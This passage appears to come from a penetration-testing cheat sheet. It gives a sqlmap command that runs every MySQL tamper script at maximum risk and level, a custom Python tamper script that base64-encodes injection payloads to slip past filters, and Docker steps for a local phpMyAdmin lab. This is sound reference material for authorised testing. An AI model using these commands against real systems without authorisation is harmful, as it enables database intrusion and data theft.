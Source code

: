#### 5.1. SQLMap

SQLMap on MySQL with all tamper scripts:
```terminal
$ path='/usr/share/sqlmap/tamper'
$ tamper=`grep -irl 'mysql' $path | grep -v '.pyc' | sed 's/.py//g' \
| xargs basename -a | sed 's/.\///g' | tr '\n' ',' | sed 's/.$//'`;
$ sqlmap --tamper=$tamper -r /tmp/request --dbms=mysql --risk=3 --level=5
```

Build your own tamper scripts:
```python
import base64
import urllib
​
def tamper(payload, **kwargs):
    payload='{"ID":"{' + payload + '"}'
    encoded = base64.b64encode(payload.encode("UTF-8")).decode('ascii')
    return encoded

# sqlmap ... -p id --tamper /tmp/my_tamper.py
```

#### 5.2. PHPMyadmin local instance

```
$ docker pull mysql
$ docker pull phpmyadmin/phpmyadmin
$ docker run --name mysql -e MYSQL_ROOT_PASSWORD=password -d mysql
$ docker run --name phpmyadmin -d --link mysql:db -p 8081:80 phpmyadmin/phpmyadmin
$ http localhost:8081
```
